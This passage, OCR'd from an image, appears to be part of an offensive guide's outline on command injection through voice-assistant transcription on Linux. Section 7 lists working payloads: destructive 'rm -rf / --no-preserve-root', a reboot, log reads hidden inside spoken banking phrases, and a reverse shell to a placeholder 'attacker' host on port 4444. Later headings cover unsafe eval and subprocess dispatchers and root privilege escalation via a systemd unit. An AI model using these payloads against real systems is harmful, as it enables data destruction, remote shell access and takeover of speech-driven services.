 * Randomizing payload location
* Multi-band audio interpolation

---

## 7. Live Command Injection: Payloads & Transcripts

### 7.1 Real-World Voice Phrases → Payload

| Phrase                            | Transcribed Payload | Linux Effect                  |
| --------------------------------- | ------------------- | ----------------------------- |
| “Transfer \$100; reboot system”   | `systemctl reboot`  | Reboot via `reboot(2)`        |
| “Show disk usage; rm -rf /tmp/\*” | `rm -rf /tmp/*`     | Shell expands glob → `unlink` |

### 7.2 Breaking out of Quoted Contexts

* `"; rm -rf / --no-preserve-root; #`
* `$(sudo bash -i >& /dev/tcp/attacker/4444 0>&1)`

### 7.3 Embedding in Benign Queries

* “What’s my balance; journalctl -n 100”

---

## 8. Dispatcher & Shell Parser Exploits

### 8.1 Bash `eval` Pitfalls

* `TRANSCRIPT='foo; bar'` injection
* Unsafe quoting patterns

### 8.2 Python `subprocess` Pitfalls

* `shell=True` vulnerabilities
* JSON parser injection via `jq` misuse

### 8.3 Practical Examples

* Full dispatcher snippet with injected transcript
* Demonstration of successful arbitrary command

---

## 9. Privilege Escalation Chains

### 9.1 Misconfigured [whisper-invoke@.service](mailto:whisper-invoke@.service)

* `User=root` vs. `User=<nonroot>`
* Exploiting `ExecStartPre=`
